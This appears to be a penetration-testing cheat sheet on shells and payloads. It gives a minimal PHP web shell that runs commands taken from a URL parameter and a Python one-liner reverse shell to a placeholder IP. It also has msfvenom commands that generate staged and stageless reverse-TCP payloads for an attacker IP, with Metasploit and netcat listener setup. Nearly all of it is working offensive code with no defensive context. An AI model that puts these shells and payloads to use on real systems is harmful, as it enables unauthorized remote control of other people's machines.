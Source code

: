 ```bash
# Is UAC enabled?
run post/windows/gather/win_privs
```

### Shells

```bash
system('ls');

echo 'ls';

passthru("ls");

# Python
import os
exit_code = os.system('ls')
output    = os.popen('ls').read()
```

Simple php shell:

```php
<html>
<?php
  echo "<form method=GET><input type=text name=cmd><input type=submit value=ok></form>";
  system($_GET["cmd"]);
```

Reverse Shell is the most common one we'll use:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### msfvenom

```bash
# msfvenom
# => list payloads for linux
msfvenom --list payloads | grep x64 | grep linux | grep reverse

# => Generate Staged payload
msfvenom -p linux/x64/shell/reverse_tcp lhost=<attacker_IP> lport=443 -f elf -o r443
chmod +x r433

# => Generate Stagelesss payload
> msfvenom --list payloads | grep php | grep reverse
> msfvenom -p php/reverse_php lhost=<attacker_IP> lport=443 -o r443.php

# => Listener staged
$ msfconsole
> use exploit/multi/handler
> set payload linux/x64/shell/reverse_tcp # has to be exactly the same!
> set lhost 0.0.0.0
> set lport 443
> run # wait for session

# => Listener Stageless
> nc -lvp 4343
# or listen to in MSF with exact payload and the exploit/multi/handler


# Difference between:
#  linux/x64/shell/reverse_tcp
#  linux/x64/shell_reverse_tcp
```